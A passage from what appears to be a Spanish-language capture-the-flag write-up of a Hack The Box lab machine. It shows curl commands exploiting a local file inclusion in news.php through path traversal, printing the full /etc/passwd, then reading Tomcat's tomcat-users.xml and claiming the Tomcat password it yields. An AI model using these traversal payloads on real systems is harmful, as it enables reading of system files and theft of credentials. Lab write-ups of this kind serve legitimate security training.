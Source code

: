 ## Web Exploitation

He encontrado un `LFI (Local File Inclusion)`

```
# curl http://megahosting.htb/news.php?file=../../../../../../../etc/passwd   
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

`Obtenemos` las `credenciales` del Tomcat `tomcat:$3cureP4s5w0rd123!`

```
# curl http://megahosting.htb/news.php?file=../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
```